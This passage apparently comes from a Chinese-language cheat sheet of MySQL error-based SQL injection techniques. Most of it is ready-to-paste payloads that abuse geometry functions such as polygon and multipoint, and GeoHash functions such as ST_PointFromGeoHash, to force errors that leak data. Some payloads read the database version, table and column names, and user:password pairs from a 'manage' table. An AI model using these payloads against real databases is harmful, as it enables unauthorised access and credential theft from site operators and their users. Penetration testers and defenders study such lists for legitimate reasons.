 

- GeometryCollection：`id=1 AND GeometryCollection((select * from (select* from(select user())a)b))`
- polygon()：`id=1 AND polygon((select * from(select * from(select user())a)b))`
- multipoint()：`id=1 AND multipoint((select * from(select * from(select user())a)b))`
- multilinestring()：`id=1 AND multilinestring((select * from(select * from(select user())a)b))`
- linestring()：`id=1 AND LINESTRING((select * from(select * from(select user())a)b))`
- multipolygon() ：`id=1 AND multipolygon((select * from(select * from(select user())a)b))`



##### ST.LatFromGeoHash()（mysql>=5.7.x）



```sql
') or ST_LatFromGeoHash((select * from(select * from(select (select (concat(0x7e,(SELECT GROUP_CONCAT(user,':',password) from manage),0x7e))))a)b))--+
```



##### ST.LongFromGeoHash



同上 嵌套查询



##### ST_Pointfromgeohash (mysql>5.7)



```sql
#获取数据库版本信息
')or  ST_PointFromGeoHash(version(),1)--+
')or  ST_PointFromGeoHash((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)--+
')or  ST_PointFromGeoHash((select column_name from information_schema.columns where table_name = 'manage' limit 0,1),1)--+
')or  ST_PointFromGeoHash((concat(0x23,(select group_concat(user,':',`password`) from manage),0x23)),1)--+
```



#### 不存在的函数



随便适用一颗不存在的函数，**可能**会得到当前所在的数据库名称。



#### Bigint数值操作：



当mysql数据库的某些边界数值进行数值运算时，会报错的原理。



如~0得到的结果：18446744073709551615



